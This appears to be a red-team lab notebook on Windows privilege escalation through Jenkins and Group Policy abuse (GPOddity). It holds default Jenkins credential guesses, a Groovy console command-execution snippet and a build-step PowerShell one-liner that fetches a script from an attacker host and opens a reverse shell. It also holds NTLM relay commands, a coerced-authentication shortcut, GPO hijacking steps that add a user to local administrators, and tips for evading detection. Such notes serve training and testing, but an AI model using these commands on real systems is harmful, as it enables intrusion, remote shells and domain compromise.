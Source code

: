 Features abuse are awesome as there are seldom patches for them and
they are not the focus of security teams!

 One of my favourite features abuse is targeting enterprise applications
which are not built keeping security in mind.

On Windows, many enterprise applications need either Administrative
privileges or SYSTEM privileges making them a great avenue for privilege
escalation.

### Jenkins
If you you see a user like `builduser` in the user list try the following credentials
```
    builduser: <null>
    builduser:builduser
    builduser:resudilub
    builduser:resudilub!
```

With Jenkins Admin creds you can go to `/script` and run the following
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

**No Admin creds, but can add or edit build steps in the build configuration**.
	1. Project0 (or any)
	2. Configure
	3. Add Build Step
		1. Execute Windows Batch Command

Add a "Execute Windows Batch command" build step and catch a reverse shell
```powershell
powershell.exe iex (iwr -UseBasicParsing http://172.16.100.48/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress 172.16.100.48 -Port 443
```

1. Create a local firewall rule to allow the hosting of a webserver
	1. Or turn it off
2. Host the web server using HFS or python

**In real redteam engagements don't drop a reverse shell or even the stage 1 payload. Start off with a stage zero payload that beacons and quietly enumerates to see if the target is heavily protected**


> [!NOTE] **IMPORTANT**
> `whoami` and `hostname` is very noisy
> use `$env:Username` and `ls env:` instead

One way to protect an enterprise application is to expose it to the internet via a Azure Proxy, make everyone authenticate using Entra ID and use a whitelist for people allowed to use it

### GPO Abuse - GPOddity
A GPO with overly permissive ACL can be abused for multiple attacks.

GPOddity combines `NTLM` relaying and modification of Group Policy
Container. By relaying credentials of a user who has `WriteDACL` on GPO, we can
modify the path (`gPCFileSysPath`) of the group policy template (default
is `SYSVOL`).

This enables loading of a malicious template from a location that we
control.


![[Pasted image 20250505062951.png]]

Open WSL Ubuntu shell and start NTLM relay (relay) - WSLToTh3Rescue!
```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.48 --http-port '80,8080' -i --no-smb-server
```

Create new shortcut with this command and place in writable share
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke WebRequest -Uri 'http://172.16.100.48' -UseDefaultCredentials"

xcopy .\student548.lnk \\dcorp-ci\AI
```

After relay connect to shell
```bash
nc 127.0.0.1 11000
```

Delegate `WriteDACL` permissions to the group policy the relayed user can control
```bash
write_gpo_dacl student548 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

**OR** we can add a computer and use those credentials
```bash
add_computer stdx-gpattack Secretpass@123

write_gpo_dacl stdx-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

Run GPOddity to edit Group Policy
```bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'studentx' --password 'gG38Ngqym2DpitXuGrsJ' --command 'net localgroup administrators studentx
/add' --rogue-smbserver-ip '172.16.100.x' --rogue-smbserver-share 'std548-gp' -
-dc-ip '172.16.2.1' --smb-mode none
```

Move group policy files from GPOddity to new share folder
```bash
mkdir /mnt/c/AD/Tools/std548-gp

cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std548-gp
```

From Admin CMD create a the file share called `std548-gp` and grant full perms to everyone
```powershell
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full

icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```

Check `gpcfilesyspath`
```powershell
Get-DomainGPO  -Identity "DevOps Policy"
```

Wait for Group Policy to refresh and test new privileges
```powershell
winrs -r:dcorp-ci cmd /c "set computername && set username"
```